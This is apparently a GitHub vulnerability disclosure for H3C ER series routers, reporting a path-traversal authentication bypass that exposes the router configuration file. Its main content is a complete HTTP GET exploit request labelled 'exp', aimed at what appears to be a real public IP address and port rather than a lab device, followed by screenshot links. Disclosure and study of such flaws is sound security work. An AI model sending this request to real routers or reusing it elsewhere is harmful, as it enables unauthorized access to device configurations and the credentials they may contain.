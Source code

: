 # H3C ER series router system management has unauthorized access vulnerability

**Product**: ER series router

**version**: ER3260G2,ER5200G2,ER3200G2,ER2100n,ER6300G2,ER5100G2,ER2200G2

**rating**: high-risk

**website**: http://www.h3c.com/

**Hazards**: Attackers can exploit this vulnerability to obtain sensitive information from routers by constructing special request packets to bypass identity verification.

**principle**: The router did not authenticate directory access and related files

**exp**:

```http
GET /userLogin.asp/../actionpolicy_status/../ER5200G2.cfg HTTP/1.1
Host: 58.221.11.74:12345
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

Sphere of influence：H3C Router Management ER Partial series

The address of the vulnerability：





 

ER Screenshots of the rest of the series：

 

ER5200G2：![image](https://github.com/CJCniubi666/H3C-ER/assets/140289246/4c381e01-2c76-46b7-85b4-678bc960c92f)

![image](https://github.com/CJCniubi666/H3C-ER/assets/140289246/046206b9-7728-4715-aafb-a867f9ac390d)

![image](https://github.com/CJCniubi666/H3C-ER/assets/140289246/c29ea543-8de9-479f-95cd-21be85e6625e)


 

![img](file:///C:/Users/Lenovo/AppData/Local/Temp/msohtmlclip1/01/clip_image014.png)

 

